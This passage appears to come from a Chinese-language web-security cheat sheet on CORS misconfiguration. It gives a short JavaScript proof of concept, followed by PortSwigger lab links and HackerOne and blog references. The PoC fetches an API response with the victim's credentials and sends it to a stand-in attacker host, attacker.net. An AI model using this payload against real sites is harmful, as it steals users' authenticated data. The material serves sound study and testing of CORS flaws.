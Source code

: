 此PoC要求相应的JS脚本托管在`apiiexample.com`

```js
var req = new XMLHttpRequest(); 
req.onload = reqListener; 
req.open('get','https://api.example.com/endpoint',true); 
req.withCredentials = true;
req.send();

function reqListener() {
    location='//attacker.net/log?key='+this.responseText; 
};
```

## 实验环境

* [PortSwigger - 基础origin反射攻击的CORS漏洞](https://portswigger.net/web-security/cors/lab-basic-origin-reflection-attack)
* [PortSwigger - 信任null origin的CORS漏洞](https://portswigger.net/web-security/cors/lab-null-origin-whitelisted-attack)
* [PortSwigger - 信任不安全协议的CORS漏洞](https://portswigger.net/web-security/cors/lab-breaking-https-attack)
* [PortSwigger - 内部网络渗透攻击的CORS漏洞](https://portswigger.net/web-security/cors/lab-internal-network-pivot-attack)

## 参考资料

* [[██████] 跨域资源共享配置错误(CORS) - Vadim (jarvis7) - 2018年12月20日](https://hackerone.com/reports/470298)
* [高级CORS利用技术 - Corben Leo - 2018年6月16日](https://web.archive.org/web/20190516052453/https://www.corben.io/advanced-cors-techniques/)
* [CORS配置错误 | 账户接管 - Rohan (nahoragg) - 2018年10月20日](https://hackerone.com/reports/426147)
* [CORS配置错误导致私有信息泄露 - sandh0t (sandh0t) - 2018年10月29日](https://hackerone.com/reports/430249)
* [www.zomato.com上的CORS配置错误 - James Kettle (albinowax) - 2016年9月15日](https://hackerone.com/reports/168574)
* [CORS配置错误详解 - Detectify博客 - 2018年4月26日](https://blog.detectify.com/2018/04/26/cors-misconfigurations-explained/)
* [跨域资源共享(CORS) - PortSwigger Web安全学院 - 2019年12月30日](https://portswigger.net/web-security/cors)
* [跨域资源共享配置错误 | 窃取用户信息 - bughunterboy (bughunterboy) - 2017年6月1日](https://hackerone.com/reports/235200)
* [利用CORS配置错误获取比特币和漏洞赏金 - James Kettle - 2016年10月14日](https://portswigger.net/blog/exploiting-cors-misconfigurations-for-bitcoins-and-bounties)
* [利用错误配置的CORS(跨域资源共享) - Geekboy - 2016年12月16日](https://www.geekboy.ninja/blog/exploiting-misconfigured-cors-cross-origin-resource-sharing/)
* [超越范围思考：高级CORS利用技术 - Ayoub Safa (Sandh0t) - 2019年5月14日](https://medium.com/bugbountywriteup/think-outside-the-scope-advanced-cors-exploitation-techniques-dad019c68397)

